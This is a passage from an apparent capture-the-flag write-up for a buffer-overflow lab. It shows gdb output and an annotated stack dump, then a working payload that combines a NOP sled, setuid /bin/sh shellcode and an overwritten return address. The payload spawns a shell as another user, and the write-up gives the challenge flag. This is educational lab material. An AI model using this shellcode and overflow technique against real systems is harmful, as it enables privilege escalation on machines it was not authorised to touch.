Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1�BBBBBBBBBBBBBBBBBBBCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()
(gdb) x/100x $rsp-200
0x7fffffffe208:	0x004005a9	0x00000000	0xf7ffa268	0x00007fff
0x7fffffffe218:	0xffffe62c	0x00007fff	0x67676f64	0x4141416f
0x7fffffffe228:	0x41414141	0x41414141	0x41414141	0x41414141 <--- will be our NOP sled (currently 'A')
0x7fffffffe238:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe248:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe258:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe268:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe278:	0x41414141	0x31414141	0xebbf66ff	0x58716a03 <--- shellcode
0x7fffffffe288:	0x0ffe8948	0x583b6a05	0x49d23148	0x622f2fb8
0x7fffffffe298:	0x732f6e69	0xe8c14968	0x48504108	0x5752e789
0x7fffffffe2a8:	0x0fe68948	0x583c6a05	0x0fff3148	0x42424205
0x7fffffffe2b8:	0x42424242	0x42424242	0x42424242	0x42424242 <--- random chars
0x7fffffffe2c8:	0x43434343	0x00004343	0xffffe3c8	0x00007fff <--- return address
0x7fffffffe2d8:	0x00000000	0x00000002	0x004005e0	0x00000000
0x7fffffffe2e8:	0xf7a4302a	0x00007fff	0x00000000	0x00000000
0x7fffffffe2f8:	0xffffe3c8	0x00007fff	0x00040000	0x00000002
0x7fffffffe308:	0x004005ac	0x00000000	0x00000000	0x00000000
0x7fffffffe318:	0xb5081d5d	0x166c42e5	0x00400450	0x00000000
0x7fffffffe328:	0xffffe3c0	0x00007fff	0x00000000	0x00000000
0x7fffffffe338:	0x00000000	0x00000000	0x7b281d5d	0xe993bd9a
0x7fffffffe348:	0xe10c1d5d	0xe993ad2d	0x00000000	0x00000000
0x7fffffffe358:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe368:	0xffffe3e0	0x00007fff	0xf7ffe130	0x00007fff
0x7fffffffe378:	0xf7de7656	0x00007fff	0x00000000	0x00000000
0x7fffffffe388:	0x00000000	0x00000000	0x00000000	0x00000000
~~~

Let's take `0x7fffffffe268` as return address (between future NOP sled and beginning of shell code).

**Payload**

Now, our payload is ready:

~~~
[user1@ip-10-10-189-18 overflow-4]$ ./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x68\xe2\xff\xff\xff\x7f')")
new word is doggo������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������������h����
sh-4.2$ whoami
user3
sh-4.2$ cat secret.txt
wowanothertime!!
~~~

Answer: `wowanothertime!!`